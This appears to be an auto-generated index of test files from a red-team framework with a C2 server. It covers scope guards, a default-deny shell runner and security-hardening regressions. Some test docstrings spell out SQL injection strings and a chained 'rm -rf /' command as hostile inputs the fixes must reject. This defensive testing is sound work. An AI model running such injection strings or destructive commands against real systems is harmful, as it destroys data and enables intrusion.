- `test_setg_and_get` (line 31) `def test_setg_and_get(self)` - *Set a global, verify it persists via _resolve.*
- `test_unset_removes_var` (line 37) `def test_unset_removes_var(self)` - *Set then unset a var, verify it is gone.*
- `test_var_substitution` (line 46) `def test_var_substitution(self)` - *Both ${var} and $var resolve identically.*
- `test_builtin_timestamp` (line 53) `def test_builtin_timestamp(self)` - *$timestamp is not empty.*
- `test_resolve_unresolved` (line 60) `def test_resolve_unresolved(self)` - *$nonexistent stays as ${nonexistent}.*
- `test_eval_condition_equals` (line 66) `def test_eval_condition_equals(self)` - *'hello == hello' is True, 'x == y' is False.*
- `test_eval_condition_not_equals` (line 72) `def test_eval_condition_not_equals(self)` - *'x != y' is True.*
- `test_eval_condition_regex` (line 77) `def test_eval_condition_regex(self)` - *'hello =~ ell' is True, 'hello !~ xyz' is True.*
- `test_eval_condition_numeric` (line 83) `def test_eval_condition_numeric(self)` - *Numeric comparisons evaluate correctly.*
- `test_eval_condition_contains` (line 91) `def test_eval_condition_contains(self)` - *'hello contains ll' is True, 'abc contains x' is False.*
- `test_eval_condition_defined` (line 97) `def test_eval_condition_defined(self)` - *'defined $x' is False then True after setting x.*
- `test_eval_condition_fallback_falsy` (line 104) `def test_eval_condition_fallback_falsy(self)` - *Falsy values: false, 0, no, off, empty string are all False.*
- `test_eval_condition_fallback_truthy` (line 110) `def test_eval_condition_fallback_truthy(self)` - *Truthy values: hello, 1, yes are all True.*
- `test_dry_run_mode` (line 116) `def test_dry_run_mode(self)` - *dry_run=True captures [dry-run] prefix in print callback.*
- `test_skip_depth` (line 125) `def test_skip_depth(self)` - *_skip() follows _if_stack and _skip_depth.*
- `test_if_else_endif_true` (line 143) `def test_if_else_endif_true(self)` - *if true / echo yes / else / echo no / endif prints 'yes'.*
- `test_if_else_endif_false` (line 153) `def test_if_else_endif_false(self)` - *if false variant prints 'no'.*
- `test_set_and_echo` (line 163) `def test_set_and_echo(self)` - *set x hello / echo $x prints 'hello'.*
- `test_for_loop` (line 170) `def test_for_loop(self)` - *for item in a b c / echo $item / endfor prints a, b, c.*
- `test_for_loop_empty` (line 178) `def test_for_loop_empty(self)` - *for with nothing after 'in' is not parsed as a for loop, runs as raw command.*
- `test_while_loop` (line 187) `def test_while_loop(self)` - *Basic while loop runs once then exits.*
- `test_break` (line 197) `def test_break(self)` - *break exits the for loop early.*
- `test_continue` (line 208) `def test_continue(self)` - *continue skips the current for iteration.*
- `test_comment` (line 219) `def test_comment(self)` - *Lines starting with # are ignored.*
- `test_macro_and_call` (line 228) `def test_macro_and_call(self)` - *Macro body runs once during main pass (unresolved), then call resolves args.*
- `test_spool` (line 238) `def test_spool(self, tmp_path)` - *spool writes echoed output to file.*
- `test_undefined_macro_raises` (line 253) `def test_undefined_macro_raises(self)` - *call nonexistent raises ScriptError.*
- `test_unset_variable` (line 258) `def test_unset_variable(self)` - *Set then unset, echo resolves to ${x} placeholder.*
- `test_nested_if` (line 267) `def test_nested_if(self)` - *Nested if/endif blocks work correctly.*

#### `test_safe_console.py`
**Path:** `tests/test_safe_console.py`
**File Doc:** *Terminal-safe console: colors and glyphs degrade, never leak.*

**Functions:**
- `test_glyphs_degrade_to_ascii` (line 20) `def test_glyphs_degrade_to_ascii(monkeypatch)` - *Non-UTF-8 sinks get bracket markers instead of unicode glyphs.*
- `test_glyphs_unicode_on_utf8` (line 32) `def test_glyphs_unicode_on_utf8(monkeypatch, capsys)` - *UTF-8 sinks keep the rich glyphs.*
- `test_console_never_forces_color` (line 41) `def test_console_never_forces_color()` - *Piped sinks receive plain text: no ANSI is ever forced on.*
- `test_panel_box_ascii_fallback` (line 52) `def test_panel_box_ascii_fallback(monkeypatch)` - *Panels use the ASCII box when unicode is unavailable.*

#### `test_safe_subprocess.py`
**Path:** `tests/test_safe_subprocess.py`
**File Doc:** *TDD tests for the safe subprocess runner contract.  Contract: ``core.safe_subprocess.SafeRunner`` replaces the legacy ``subprocess.run(..., shell=True, ...)`` call sites in :mod:`utils` and :mod:`lazyc2` with a default-deny wrapper that requires an explicit ``allow=True`` and a free-text ``reason`` for every shell invocation.  Invariants:  1. ``run_shell(cmd, allow=False)`` raises ``ShellNotAllowedError``. 2. ``run_shell(cmd, allow=True, reason="...")`` executes the command and appends one JSON line to the audit log. 3. ``run(argv_list)`` is always allowed and never touches the audit log. 4. Both APIs return a ``SafeRunResult`` exposing ``returncode``, ``stdout``, ``stderr``, and ``duration_seconds``. 5. The audit log records ``argv`` (or the raw string), ``reason``, ``returncode``, and the timestamp.*

**Classes:**
- `TestRunArgv` (line 35) `class TestRunArgv` - *``run`` accepts an argv list, never logs, never blocks.*
- `TestRunShellDefaultDeny` (line 53) `class TestRunShellDefaultDeny` - *``run_shell`` requires explicit opt-in.*
- `TestRunShellAllowed` (line 71) `class TestRunShellAllowed` - *``run_shell(allow=True, reason=...)`` executes and audits.*

**Methods:**
- `test_run_returns_completed_result` (line 38) `def test_run_returns_completed_result(self)`
- `test_run_does_not_audit` (line 46) `def test_run_does_not_audit(self, tmp_path)`
- `test_default_deny_raises` (line 56) `def test_default_deny_raises(self)`
- `test_deny_audit_logged` (line 61) `def test_deny_audit_logged(self, tmp_path)`
- `test_allowed_executes` (line 74) `def test_allowed_executes(self)`
- `test_allowed_is_audited` (line 84) `def test_allowed_is_audited(self, tmp_path)`
- `test_empty_reason_rejected` (line 94) `def test_empty_reason_rejected(self)`
- `test_failed_command_returns_nonzero` (line 99) `def test_failed_command_returns_nonzero(self)`

#### `test_safe_subprocess_behavior.py`
**Path:** `tests/test_safe_subprocess_behavior.py`
**File Doc:** *BDD behavior scenarios for the safe subprocess contract.*

**Functions:**
- `test_given_argv_when_run_then_executes_without_audit` (line 12) `def test_given_argv_when_run_then_executes_without_audit(tmp_path)` - *Given an argv list, ``run`` executes it and writes no audit row.*
- `test_given_shell_without_allow_when_called_then_denied` (line 22) `def test_given_shell_without_allow_when_called_then_denied(tmp_path)` - *Given a shell call without opt-in, the runner denies and audits.*
- `test_given_shell_with_allow_and_reason_when_called_then_executes` (line 36) `def test_given_shell_with_allow_and_reason_when_called_then_executes(tmp_path)` - *Given a shell call with opt-in and reason, the runner executes and audits.*

#### `test_safety_gates.py`
**Path:** `tests/test_safety_gates.py`
**File Doc:** *BDD scoped tests for safety gates C01-C03.  Given the guard, traffic and evidence contracts, when I exercise their public verbs, then the acceptance criteria hold.*

**Functions:**
- `test_c01_builtin_rules_block_destructive` (line 10) `def test_c01_builtin_rules_block_destructive()` - *BDD: destructive shell surfaces require approval.*
- `test_c01_allow_passthrough_and_audit` (line 19) `def test_c01_allow_passthrough_and_audit()` - *BDD: benign calls pass and appear in the audit log.*
- `test_c01_deny_rule_and_expiry` (line 29) `def test_c01_deny_rule_and_expiry()` - *BDD: explicit deny wins and expired ask denies.*
- `test_c01_daemon_gate_blocks_denied_command` (line 44) `def test_c01_daemon_gate_blocks_denied_command()` - *BDD: the daemon safety gate maps deny verdicts to skips.*
- `test_c02_record_query_roundtrip` (line 54) `def test_c02_record_query_roundtrip(tmp_path)` - *BDD: recorded exchanges are queryable with bodies intact.*
- `test_c02_path_traversal_blocked` (line 67) `def test_c02_path_traversal_blocked(tmp_path)` - *BDD: body fetch outside the vault is rejected.*
- `test_c03_put_get_and_gc` (line 78) `def test_c03_put_get_and_gc(tmp_path)` - *BDD: evidence vault hashes, verifies, and collects garbage.*
- `test_c03_tamper_detected` (line 100) `def test_c03_tamper_detected(tmp_path)` - *BDD: corrupted blob bytes fail integrity verification.*

#### `test_scope_bound_auto_gate.py`
**Path:** `tests/test_scope_bound_auto_gate.py`
**File Doc:** *tests/test_scope_bound_auto_gate.py  Coverage for the fully autonomous engage mode ("real auto mode").  Test scope: - skills/lazyown_policy.py :: ScopeBoundAutoGate — the headless approval gate that never prompts a human and keeps the authorized scope as the single fail-closed safety boundary of unattended autonomy. - skills/lazyown_policy.py :: _default_in_scope / _normalize_scope — the scope predicate helpers backed by cli/scope_guard.py loaded in isolation. - skills/autonomous_daemon.py :: _engage_run_sync(auto=True) wiring and the best-effort _maybe_generate_report chaining. - End-to-end guarantee: an out-of-scope target under ``enforce`` is DENIED at every step and the command runner is never invoked.*

**Classes:**
- `TestScopeBoundAutoGate` (line 49) `class TestScopeBoundAutoGate` - *Unit tests for the headless, scope-bound approval gate.*
- `TestDefaultScopePredicate` (line 148) `class TestDefaultScopePredicate` - *Integration with the real cli/scope_guard.py predicate.*
- `TestAutoEngageWiring` (line 183) `class TestAutoEngageWiring` - *_engage_run_sync auto wiring and report chaining.*
- `_CountingRunner` (line 237) `class _CountingRunner` - *ICommandRunner double that records every command it is asked to run.*
- `TestFailClosedAutonomy` (line 252) `class TestFailClosedAutonomy` - *End-to-end: unattended run never touches an out-of-scope host.*
- `_SpyOrchestrator` (line 192) `class _SpyOrchestrator`
- `_SpyOrchestrator` (line 211) `class _SpyOrchestrator`

**Functions:**
- `_write_payload` (line 32) `def _write_payload(tmp_path, data)` - *Write *data* to a payload.json inside *tmp_path* and return its path.*
- `_gate` (line 39) `def _gate(tmp_path, data, in_scope_fn)` - *Construct a ScopeBoundAutoGate over a temp payload.*
- `_boom` (line 172) `def _boom(target, entries)`
- `_explode` (line 227) `def _explode()`

**Methods:**
- `test_dormant_when_scope_empty` (line 52) `def test_dormant_when_scope_empty(self, tmp_path)`
- `test_dormant_when_enforcement_off` (line 61) `def test_dormant_when_enforcement_off(self, tmp_path)`
- `test_approves_in_scope_under_enforce` (line 69) `def test_approves_in_scope_under_enforce(self, tmp_path)`
- `test_denies_out_of_scope_under_enforce` (line 79) `def test_denies_out_of_scope_under_enforce(self, tmp_path)`
- `test_warns_but_approves_out_of_scope` (line 92) `def test_warns_but_approves_out_of_scope(self, tmp_path)`
- `test_default_enforcement_is_warn` (line 103) `def test_default_enforcement_is_warn(self, tmp_path)`
- `test_reads_payload_at_request_time` (line 111) `def test_reads_payload_at_request_time(self, tmp_path)`
- `test_missing_payload_is_dormant` (line 123) `def test_missing_payload_is_dormant(self, tmp_path)`
- `test_never_blocks_returns_synchronously` (line 129) `def test_never_blocks_returns_synchronously(self, tmp_path)`
- `test_honours_approval_gate_interface` (line 140) `def test_honours_approval_gate_interface(self, tmp_path)`
- `test_default_predicate_matches_cidr` (line 151) `def test_default_predicate_matches_cidr(self, tmp_path)`
- `test_normalize_scope_drops_blanks` (line 160) `def test_normalize_scope_drops_blanks(self)`
- `test_in_scope_fails_closed_on_predicate_error` (line 169) `def test_in_scope_fails_closed_on_predicate_error(self, tmp_path)`
- `test_auto_wires_scope_bound_gate_and_chains_report` (line 186) `def test_auto_wires_scope_bound_gate_and_chains_report(self, monkeypatch)`
- `test_non_auto_uses_default_gate_and_no_report` (line 206) `def test_non_auto_uses_default_gate_and_no_report(self, monkeypatch)`
- `test_maybe_generate_report_is_best_effort` (line 224) `def test_maybe_generate_report_is_best_effort(self, monkeypatch)`
- `__init__` (line 240) `def __init__(self)`
- `run` (line 243) `def run(self, command, timeout)`
- `name` (line 248) `def name(self)`
- `temp_engagement` (line 256) `def temp_engagement(self, tmp_path)`
- `test_out_of_scope_denies_all_steps_runner_never_called` (line 274) `def test_out_of_scope_denies_all_steps_runner_never_called(self, temp_engagement)`
- `test_in_scope_target_executes_steps` (line 289) `def test_in_scope_target_executes_steps(self, temp_engagement)`
- `__init__` (line 193) `def __init__(self, target, max_switches_per_step, approval_gate)`
- `run` (line 197) `def run(self)`
- `__init__` (line 212) `def __init__(self, target, max_switches_per_step, approval_gate)`
- `run` (line 216) `def run(self)`

#### `test_scope_guard.py`
**Path:** `tests/test_scope_guard.py`
**File Doc:** *Test suite for cli/scope_guard.py.  Covers the pure scope-authorization logic in isolation: mode coercion, scope normalisation from every accepted form, CIDR/IP/hostname matching, the offensive-command classifier, and every branch of the fail-open decision matrix. A drift test pins the offensive category strings against the canonical definitions in utils.py.*

**Classes:**
- `TestScopeMode` (line 33) `class TestScopeMode`
- `TestNormalizeScope` (line 53) `class TestNormalizeScope`
- `TestTargetInScope` (line 80) `class TestTargetInScope`
- `TestBuildOffensiveCommands` (line 119) `class TestBuildOffensiveCommands`
- `TestScopeGuardEvaluate` (line 140) `class TestScopeGuardEvaluate`
- `TestScopeExemptions` (line 194) `class TestScopeExemptions` - *Read-only operational commands never trip scope enforcement.*
- `TestOffensiveCategoryDrift` (line 210) `class TestOffensiveCategoryDrift` - *The hardcoded offensive category strings must stay in sync with utils.*

**Functions:**
- `_guard` (line 135) `def _guard(scope, mode, offensive_names)`
- `boom` (line 180) `def boom(_name)`

**Methods:**
- `test_from_value_passthrough` (line 34) `def test_from_value_passthrough(self)`
- `test_from_value_strings` (line 45) `def test_from_value_strings(self, raw, expected)`
- `test_unknown_defaults_to_warn` (line 49) `def test_unknown_defaults_to_warn(self, raw)`
- `test_none` (line 54) `def test_none(self)`
- `test_list` (line 57) `def test_list(self)`
- `test_tuple_and_set` (line 60) `def test_tuple_and_set(self)`
- `test_json_array_string` (line 64) `def test_json_array_string(self)`
- `test_comma_separated_string` (line 67) `def test_comma_separated_string(self)`
- `test_space_separated_string` (line 70) `def test_space_separated_string(self)`
- `test_empty_string` (line 73) `def test_empty_string(self)`
- `test_unsupported_type` (line 76) `def test_unsupported_type(self)`
- `test_empty_target` (line 81) `def test_empty_target(self)`
- `test_ip_in_cidr` (line 84) `def test_ip_in_cidr(self)`
- `test_ip_outside_cidr` (line 87) `def test_ip_outside_cidr(self)`
- `test_bare_ip_match` (line 90) `def test_bare_ip_match(self)`
- `test_bare_ip_mismatch` (line 93) `def test_bare_ip_mismatch(self)`
- `test_exact_hostname` (line 96) `def test_exact_hostname(self)`
- `test_subdomain_match` (line 99) `def test_subdomain_match(self)`
- `test_wildcard_match` (line 102) `def test_wildcard_match(self)`
- `test_hostname_not_in_cidr` (line 106) `def test_hostname_not_in_cidr(self)`
- `test_ip_not_matched_by_hostname_entry` (line 109) `def test_ip_not_matched_by_hostname_entry(self)`
- `test_ipv6_in_cidr` (line 112) `def test_ipv6_in_cidr(self)`
- `test_blank_entries_ignored` (line 115) `def test_blank_entries_ignored(self)`
- `test_selects_offensive_only` (line 120) `def test_selects_offensive_only(self)`
- `test_empty` (line 131) `def test_empty(self)`
- `test_mode_off_is_noop` (line 141) `def test_mode_off_is_noop(self)`
- `test_no_scope_allows` (line 146) `def test_no_scope_allows(self)`
- `test_benign_command_allowed` (line 151) `def test_benign_command_allowed(self)`
- `test_empty_target_allowed` (line 156) `def test_empty_target_allowed(self)`
- `test_in_scope_allowed` (line 160) `def test_in_scope_allowed(self)`
- `test_out_of_scope_warn_allows_with_reason` (line 165) `def test_out_of_scope_warn_allows_with_reason(self)`
- `test_out_of_scope_enforce_blocks` (line 172) `def test_out_of_scope_enforce_blocks(self)`
- `test_classifier_exception_fails_open` (line 179) `def test_classifier_exception_fails_open(self)`
- `test_decision_is_value_object` (line 187) `def test_decision_is_value_object(self)`
- `test_exempt_command_allowed_out_of_scope` (line 197) `def test_exempt_command_allowed_out_of_scope(self)`
- `test_exempt_set_covers_offensive_operational_surfaces` (line 203) `def test_exempt_set_covers_offensive_operational_surfaces(self)`
- `test_categories_exist_in_utils` (line 213) `def test_categories_exist_in_utils(self)`

#### `test_scope_guard_integration.py`
**Path:** `tests/test_scope_guard_integration.py`
**File Doc:** *Integration tests for the scope guard wired into LazyOwnShell.  These exercise the thin shell glue (``_scope_check``, ``_resolve_offensive``, ``_scope_confirm``, ``_scope_entries``) by invoking the real, unbound methods against a lightweight stub, so the full (heavy) shell constructor is never run. The pure decision logic lives in :mod:`cli.scope_guard` and is covered by ``tests/test_scope_guard.py``.*

**Classes:**
- `TestResolveOffensive` (line 41) `class TestResolveOffensive`
- `TestScopeCheck` (line 59) `class TestScopeCheck`
- `TestScopeConfirmNonInteractive` (line 120) `class TestScopeConfirmNonInteractive`
- `TestScopeEntries` (line 128) `class TestScopeEntries`
- `TestOffensiveClassificationIsBuilt` (line 138) `class TestOffensiveClassificationIsBuilt`

**Functions:**
- `_make_stub` (line 28) `def _make_stub(params, offensive, aliases, confirm)`
- `_do_offensive` (line 144) `def _do_offensive()`
- `_do_benign` (line 147) `def _do_benign()`

**Methods:**
- `test_direct_offensive` (line 42) `def test_direct_offensive(self)`
- `test_benign` (line 46) `def test_benign(self)`
- `test_alias_to_offensive` (line 50) `def test_alias_to_offensive(self)`
- `test_alias_to_benign` (line 54) `def test_alias_to_benign(self)`
- `test_no_scope_allows` (line 60) `def test_no_scope_allows(self)`
- `test_in_scope_allows` (line 67) `def test_in_scope_allows(self)`
- `test_benign_command_allows` (line 74) `def test_benign_command_allows(self)`
- `test_warn_mode_allows_out_of_scope` (line 81) `def test_warn_mode_allows_out_of_scope(self, capsys)`
- `test_enforce_mode_blocks_out_of_scope` (line 88) `def test_enforce_mode_blocks_out_of_scope(self)`
- `test_enforce_mode_confirmation_allows` (line 96) `def test_enforce_mode_confirmation_allows(self)`
- `test_off_mode_allows` (line 104) `def test_off_mode_allows(self)`
- `test_malformed_params_fail_open` (line 111) `def test_malformed_params_fail_open(self)`
- `test_non_tty_refuses` (line 121) `def test_non_tty_refuses(self, monkeypatch)`
- `test_normalizes_list` (line 129) `def test_normalizes_list(self)`
- `test_normalizes_string` (line 133) `def test_normalizes_string(self)`
- `test_build_offensive_from_categories` (line 139) `def test_build_offensive_from_categories(self)`

#### `test_security_codeql_batch.py`
**Path:** `tests/test_security_codeql_batch.py`
**File Doc:** *SDD regression tests for the CodeQL security batch.  Pins the fixed behavior so future changes cannot silently reintroduce the flagged flaws: proxy SSRF guard, verified TLS by default, webhook SSRF guard, encrypted channel secrets at rest, owner-only secret files, traversal-proof yaml browsing, generic error responses, and a tightened emoji pattern. Every test fails against the pre-fix code (verified by mutation) and passes with the fix.*

**Classes:**
- `TestProxySsrfGuard` (line 45) `class TestProxySsrfGuard` - *CONTRACT: client-controlled proxy targets are validated server-side.*
- `TestProxyTlsDefaults` (line 92) `class TestProxyTlsDefaults` - *CONTRACT: upstream TLS verifies by default; insecure needs opt-in.*
- `TestWebhookSsrfGuard` (line 116) `class TestWebhookSsrfGuard` - *CONTRACT: webhook delivery cannot be steered to metadata/loopback.*
- `TestChannelSecrets` (line 149) `class TestChannelSecrets` - *CONTRACT: notifier passwords are scrubbed in transit, sealed at rest.*
- `TestReverseShellFallback` (line 186) `class TestReverseShellFallback` - *CONTRACT: fallback token never reaches logs; owner-only file instead.*
- `TestViewYamlTraversal` (line 207) `class TestViewYamlTraversal` - *CONTRACT: yaml browsing stays inside the atomic base directory.*
- `TestGenericErrorResponses` (line 267) `class TestGenericErrorResponses` - *CONTRACT: exception text never reaches HTTP clients (canary tests).*
- `TestEmojiPattern` (line 357) `class TestEmojiPattern` - *CONTRACT: emoji detection without an over-broad catch-all range.*

**Functions:**
- `_server` (line 27) `def _server()` - *Load the C2 server file (lazyc2.py) explicitly.

``import lazyc2`` resolves to the ``lazyc2/`` package, not the
server file, so the server module is loaded once from its path.*
- `_login_and_call` (line 251) `def _login_and_call(monkeypatch, tmp_path, view, path)` - *Call a @login_required view as an authenticated operator.*
- `_boom` (line 315) `def _boom()`
- `_boom` (line 345) `def _boom()`

**Methods:**
- `test_allows_lab_targets_by_default` (line 48) `def test_allows_lab_targets_by_default(self)`
- `test_blocks_cloud_metadata` (line 55) `def test_blocks_cloud_metadata(self)`
- `test_blocks_malformed_targets` (line 65) `def test_blocks_malformed_targets(self)`
- `test_blocks_private_when_operator_opts_out` (line 81) `def test_blocks_private_when_operator_opts_out(self, monkeypatch)`
- `test_verified_context_by_default` (line 95) `def test_verified_context_by_default(self, monkeypatch)`
- `test_insecure_only_with_explicit_opt_in` (line 106) `def test_insecure_only_with_explicit_opt_in(self, monkeypatch)`
- `test_blocks_metadata_and_userinfo_and_ftp` (line 119) `def test_blocks_metadata_and_userinfo_and_ftp(self)`
- `test_loopback_needs_explicit_opt_in` (line 132) `def test_loopback_needs_explicit_opt_in(self, monkeypatch)`
- `test_allows_public_webhook` (line 142) `def test_allows_public_webhook(self)`
- `test_scrub_masks_passwords_and_tokens` (line 152) `def test_scrub_masks_passwords_and_tokens(self)`
- `test_password_roundtrip_with_key` (line 160) `def test_password_roundtrip_with_key(self, monkeypatch)`
- `test_password_roundtrip_without_key` (line 168) `def test_password_roundtrip_without_key(self, tmp_path, monkeypatch)`
- `test_channel_store_is_owner_only` (line 175) `def test_channel_store_is_owner_only(self, tmp_path, monkeypatch)`
- `test_secret_not_logged_and_file_restricted` (line 189) `def test_secret_not_logged_and_file_restricted(self, tmp_path, monkeypatch, caplog)`
- `_client` (line 211) `def _client(monkeypatch, tmp_path)`
- `test_blocks_traversal_inputs` (line 221) `def test_blocks_traversal_inputs(self, tmp_path, monkeypatch)`
- `test_serves_valid_subdir_and_ignores_symlink_escape` (line 228) `def test_serves_valid_subdir_and_ignores_symlink_escape(self, tmp_path, monkeypatch)`
- `test_broadcast_hides_exception` (line 270) `def test_broadcast_hides_exception(self, tmp_path, monkeypatch)`
- `test_loop_graph_hides_exception` (line 283) `def test_loop_graph_hides_exception(self, tmp_path, monkeypatch)`
- `test_guard_lookup_hides_exception` (line 295) `def test_guard_lookup_hides_exception(self, tmp_path, monkeypatch)`
- `test_mentions_hide_exception` (line 310) `def test_mentions_hide_exception(self, tmp_path, monkeypatch)`
- `test_sse_stream_hides_exception` (line 323) `def test_sse_stream_hides_exception(self, tmp_path, monkeypatch)`
- `test_api_defaults_hide_exception` (line 340) `def test_api_defaults_hide_exception(self, monkeypatch)`
- `test_blocks_common_emoji_and_clean_text_passes` (line 360) `def test_blocks_common_emoji_and_clean_text_passes(self)`
- `test_no_mega_range_in_source` (line 366) `def test_no_mega_range_in_source(self)`

#### `test_security_hardening.py`
**Path:** `tests/test_security_hardening.py`
**File Doc:** *SDD+TDD+BDD tests for security hardening contracts.  Contract: Every security fix in this batch has a corresponding test that verifies the fix works and would detect regression. Tests are written BEHAVIOURALLY (BDD-style) so they read as specifications.  Covers: - SQL injection prevention in modules/db.py (table name allowlist) - LIKE wildcard escaping in host_find - Timing-attack-resistant auth in lazyc2.py (hmac.compare_digest) - SafeRunner uses shell=False internally - pickle removed from utils.py - Hardcoded secrets eliminated from caldera config - Duplicate config constants consolidated - Credential encryption warning logging*

**Classes:**
- `TestSQLInjectionPrevention` (line 34) `class TestSQLInjectionPrevention` - *CONTRACT: The table parameter in export_csv must be validated against
an allowlist BEFORE any SQL is constructed. Any value not in VALID_TABLES
must raise ValueError immediately.*
- `TestLIKEEscapePrevention` (line 84) `class TestLIKEEscapePrevention` - *CONTRACT: Special LIKE characters (%, _, \) in user queries must be
escaped so an attacker cannot craft patterns that match unintended rows.*
- `TestTimingAttackPrevention` (line 132) `class TestTimingAttackPrevention` - *CONTRACT: Credential comparison in check_auth must use constant-time
comparison (hmac.compare_digest) to prevent timing side-channel attacks.*
- `TestSafeRunnerShellFalse` (line 176) `class TestSafeRunnerShellFalse` - *CONTRACT: SafeRunner.run_shell must parse the command with shlex.split
and execute via subprocess.run(argv, shell=False). It must NOT use
shell=True, which would bypass the shlex parsing.*
- `TestPickleRemoved` (line 229) `class TestPickleRemoved` - *CONTRACT: utils.py must not import pickle, as it enables RCE via
untrusted deserialization.*
- `TestCalderaConfigSecrets` (line 250) `class TestCalderaConfigSecrets` - *CONTRACT: create_caldera_config must generate random keys at runtime,
not use hardcoded values like LAZYOWNBLUEADMIN123.*
- `TestConfigConstantsConsolidation` (line 279) `class TestConfigConstantsConsolidation` - *CONTRACT: Default model names and hosts must be defined in exactly one
place (modules/llm_factory.py) and imported everywhere else.*
- `TestCredentialEncryptionWarning` (line 325) `class TestCredentialEncryptionWarning` - *CONTRACT: When crypto module is unavailable and credentials are stored
as plaintext, a WARNING must be logged (not silently ignored).*
- `TestOpenSSLConf` (line 357) `class TestOpenSSLConf` - *CONTRACT: OPENSSL_CONF must use setdefault (not overwrite) so system
default is preserved when the file does not exist.*
- `TestAuthTimingIntegration` (line 377) `class TestAuthTimingIntegration` - *BDD-style integration test for the full auth flow.*

**Methods:**
- `test_valid_tables_constant_is_complete` (line 39) `def test_valid_tables_constant_is_complete(self)` - *BDD: Given the schema defines hosts, services, vulns, creds, loot, notes,
When I check VALID_TABLES, Then it must contain exactly those six tables.*
- `test_export_csv_rejects_malicious_table_name` (line 45) `def test_export_csv_rejects_malicious_table_name(self, fresh_db)` - *BDD: Given an attacker provides table='hosts; DROP TABLE hosts--',
When export_csv is called, Then it must raise ValueError.*
- `test_export_csv_rejects_union_select` (line 51) `def test_export_csv_rejects_union_select(self, fresh_db)` - *BDD: Given table='creds UNION SELECT * FROM users',
When export_csv is called, Then it must raise ValueError.*
- `test_export_csv_accepts_all_valid_tables` (line 57) `def test_export_csv_accepts_all_valid_tables(self, fresh_db)` - *BDD: Given a valid table name from the schema,
When export_csv is called, Then it must not raise ValueError.*
- `fresh_db` (line 72) `def fresh_db(self)`
- `db_with_hosts` (line 89) `def db_with_hosts(self)`
- `test_percent_literal_not_wildcard` (line 98) `def test_percent_literal_not_wildcard(self, db_with_hosts)` - *BDD: Given query contains a literal percent sign,
When host_find is called, Then it must not match all hosts.*
- `test_underscore_literal_not_wildcard` (line 107) `def test_underscore_literal_not_wildcard(self, db_with_hosts)` - *BDD: Given query contains a literal underscore,
When host_find is called, Then it must not match any single character.*
- `test_normal_query_still_works` (line 116) `def test_normal_query_still_works(self, db_with_hosts)` - *BDD: Given a normal search term,
When host_find is called, Then matching hosts are returned.*
- `test_check_auth_uses_hmac_compare_digest` (line 136) `def test_check_auth_uses_hmac_compare_digest(self)` - *BDD: Given two credentials, When check_auth compares them,
Then hmac.compare_digest must be used (not == operator).*
- `test_hmac_compare_digest_rejects_timing_difference` (line 161) `def test_hmac_compare_digest_rejects_timing_difference(self)` - *BDD: Given a correct and incorrect username of same length,
When compared with hmac.compare_digest, Then result differs but timing is constant.*
- `test_run_shell_does_not_use_shell_true` (line 181) `def test_run_shell_does_not_use_shell_true(self)` - *BDD: Given SafeRunner.run_shell is called,
When subprocess.run is invoked, Then shell must be False.*
- `test_run_shell_with_pipe_character` (line 200) `def test_run_shell_with_pipe_character(self)` - *BDD: Given a command with pipe, When run_shell is called,
Then it should execute the first command (shell=False does not interpret pipes).*
- `test_run_shell_with_semicolon_is_treated_as_argument` (line 212) `def test_run_shell_with_semicolon_is_treated_as_argument(self)` - *BDD: Given 'echo hello; rm -rf /', When run_shell is called with shell=False,
Then the semicolon is treated as an argument, not a separator.*
- `test_pickle_not_imported_in_utils` (line 233) `def test_pickle_not_imported_in_utils(self)` - *BDD: Given utils.py is imported, When I check its imports,
Then pickle must not be among them.*
- `test_no_hardcoded_api_keys_in_caldera_config` (line 254) `def test_no_hardcoded_api_keys_in_caldera_config(self)` - *BDD: Given create_caldera_config is called,
When I inspect the generated config, Then no hardcoded API keys appear.*
- `test_caldera_config_uses_secrets_module` (line 263) `def test_caldera_config_uses_secrets_module(self)` - *BDD: Given create_caldera_config source,
When I check the function body, Then it must import and use secrets.*
- `test_llm_factory_defines_constants` (line 283) `def test_llm_factory_defines_constants(self)` - *BDD: Given modules/llm_factory.py, When I check for DEFAULT constants,
Then DEFAULT_GROQ_MODEL and DEFAULT_OLLAMA_HOST must be defined.*
- `test_ai_fallback_imports_from_llm_factory` (line 291) `def test_ai_fallback_imports_from_llm_factory(self)` - *BDD: Given modules/ai_fallback.py, When I check its imports,
Then it must import _GROQ_MODEL and _OLLAMA_HOST from llm_factory.*
- `test_cli_ai_imports_from_llm_factory` (line 306) `def test_cli_ai_imports_from_llm_factory(self)` - *BDD: Given cli/commands/ai.py, When I check its imports,
Then CONFIG_KEY and DEFAULT constants must come from llm_factory.*
- `test_db_module_has_logging_import` (line 329) `def test_db_module_has_logging_import(self)` - *BDD: Given modules/db.py, When I check its imports,
Then logging must be imported.*
- `test_db_maybe_encrypt_has_warning_log` (line 336) `def test_db_maybe_encrypt_has_warning_log(self)` - *BDD: Given _maybe_encrypt fails with ImportError,
When the exception is caught, Then a warning must be logged.*
- `test_db_maybe_decrypt_logs_failure` (line 344) `def test_db_maybe_decrypt_logs_failure(self)` - *BDD: Given _maybe_decrypt fails,
When the exception is caught, Then a warning must be logged.*
- `test_openssl_conf_uses_setdefault` (line 361) `def test_openssl_conf_uses_setdefault(self)` - *BDD: Given utils.py sets OPENSSL_CONF,
When I check the assignment, Then it must use os.environ.setdefault.*
- `test_check_auth_returns_false_for_wrong_credentials` (line 380) `def test_check_auth_returns_false_for_wrong_credentials(self)` - *BDD: Given wrong username and password,
When check_auth is called, Then it returns False.*
- `test_hmac_module_imported_in_lazyc2` (line 390) `def test_hmac_module_imported_in_lazyc2(self)` - *BDD: Given lazyc2.py, When I check its imports,
Then hmac must be imported.*

#### `test_security_hardening_v2.py`
**Path:** `tests/test_security_hardening_v2.py`
**File Doc:** *SDD+TDD+BDD tests for security hardening batch v2.  Contract: Every security fix in this batch has a corresponding test that verifies the fix works and would detect regression. Tests are written BEHAVIOURALLY (BDD-style) so they read as specifications.  Covers: - P0: Command injection prevention in cli/commands/ai.py - P0: Credential injection prevention in cli/commands/postexp_migrated.py - P1: DNS command allowlist enforcement in lazyc2.py - P1: Safe shell execution in cli/commands/misc_migrated.py - P1: Credential encryption at rest in modules/phishing_orchestrator.py*

**Classes:**
- `TestAICommandInjectionPrevention` (line 34) `class TestAICommandInjectionPrevention` - *CONTRACT: The do_ask and do_groq methods must NEVER pass api_key or
user prompts through os.system(), shell string interpolation, or a
spawned Python subprocess. They resolve the backend in-process through
modules.llm_factory / modules.llm_adapter, so secrets never cross a
process boundary and prompts are never shell-quoted.*
